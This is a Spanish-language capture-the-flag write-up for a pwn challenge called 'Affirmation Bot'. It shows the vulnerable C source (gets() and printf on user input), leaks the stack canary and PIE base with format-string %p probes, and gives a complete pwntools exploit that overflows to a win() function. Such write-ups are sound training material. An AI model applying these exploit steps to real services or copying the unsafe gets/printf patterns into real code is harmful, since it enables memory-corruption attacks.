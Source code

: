 # Affirmation Bot

En este ejercicio nos dan un binario y su código fuente.

```c
checksec
File:     /home/ub1cu0/Desktop/wwctf/affirmation_bot/affirmationbot
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

Vamos a ejecutar el programa:

```c
./affirmationbot
Tell me whats on your mind...
> hola
You said: hola
Affirmation Bot says: Spot on!
> adios
You said: adios
Affirmation Bot says: That's the best idea I've heard all day!
```

Como podemos ver parece que estamos en un bucle en donde nos devuelven nuestro input junto con un mensaje motivador. Vamos a comprobarlo en el código:

```c
while(1) {
    affirm();
}
```

```c
void affirm() {
    uint8_t buffer[128] = {0};
    printf("> ");
    gets(buffer);
    printf("You said: ");
    printf(buffer);
    printf("\nAffirmation Bot says: ");
    int index = rand() % 11;
    printf("%s\n", affirmations[index]);
    fflush(stdout);
}
```

La función affirm se ejecuta en bucle. Podemos ver también un `gets` sin especificar tamaño y un `printf` sin especificar el tipo de dato con lo cual tenemos un buffer overflow y un format strings. También hay una función win:

```c
void win() {
    uint8_t flag_buffer[128] = {0};
    int fd = open("flag.txt", O_RDONLY);
    read(fd, flag_buffer, sizeof(flag_buffer));
    puts(flag_buffer);
    close(fd);
}
```

Como tenemos `PIE` y `Canary` activados tenemos que hacer lo siguiente:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Para hacer un leak del canary podemos mandar muchas `%p` para que nos vaya devolviendo el contenido del stack en forma de punteros y intentar encontrar el valor del canary. El canary siempre acaba por `00` para que el programa sepa donde tiene que acabar de leer el canary. Yo ya he hecho un fuzzing de muchas posiciones y he encontrado el siguiente valor:

```c
> %47$p // Posición 47
You said: 0xf2acbd7b61d92e00
```

Tiene buena pinta, pero como lo comprobamos? Podemos usar `telescope` para verlo, el canary suele estar después del rbp:

```c
pwndbg> telescope $rsp 30  // Mostramos los 30 siguientes elementos antes del rsp
00:0000│ rsp 0x7fffffffdbd0 ◂— 1
01:0008│-098 0x7fffffffdbd8 ◂— 0x6f7e388d2
02:0010│-090 0x7fffffffdbe0 ◂— 0x7024373425
03:0018│-088 0x7fffffffdbe8 ◂— 0
... ↓        15 skipped
13:0098│-008 0x7fffffffdc68 ◂— 0xf2acbd7b61d92e00 // Aquí!
14:00a0│ rbp 0x7fffffffdc70 —▸ 0x7fffffffdc80 ◂— 1
```

Es el mismo! Ya sabemos que ese es el valor del canary. Ahora tenemos que hacer un leak del `PIE`. Para descubrir la dirección base del binario tenemos que primero hacer un leak de una instrucción del programa, descubrir su offset con respecto a la base del binario, y una vez sabemos el offset podemos ya calcularlo en nuestro solver final.

```c
Offset = Dirección del binario leakeada - Piebase
```

Con `piebase` podemos sacar la dirección del binario en local. Ahora podemos fuzzear con muchos `%p` para intentar encontrar una, yo he encontrado esta:

```c
pwndbg> x 0x55555555547c 
0x55555555547c <main>: 0x59058b48e5894855
```

```c
pwndbg> piebase
Calculated VA from /home/ub1cu0/Desktop/wwctf/affirmation_bot/affirmationbot = 0x555555554000
pwndbg> x 0x55555555547c - 0x555555554000
0x147c:	Cannot access memory at address 0x147c // Este es el offset
```

Ahora que tenemos todo lo necesario podemos montar el solver:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./affirmationbot_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b affirm
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("chal.wwctf.com", 4001)

def main():
    io = conn()
    offset = 136  # Esto podemos sacarlo mirando el código y probando a ver si crashea o no
    padding = 8   # para saltar el RBP (queremos llegar a la dirección de retorno, la cual está después del rbp)
    io.sendlineafter(b'> ', '%47$p')  # Leak del Canary
    linea = io.recvline().strip().decode()
    canary = int(linea.split("0x")[1], 16)
    log.success(f'Canary: {hex(canary)}')
    io.sendlineafter(b'> ', '%37$p') # Leak del PIE, en remoto puede variar, si no va probar posiciones cercanas al que va en local
    leaked_function_line = io.recvline().strip().decode()
    leaked_function = int(leaked_function_line.split("0x")[1], 16)
    
    exe.address = leaked_function - 0x147c
    log.success(f'Base Address: {hex(exe.address)}')
    
    payload = flat({
        offset: [
            canary,
            b'A' * padding,
            exe.symbols.win
        ]
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

Gracias por leer.

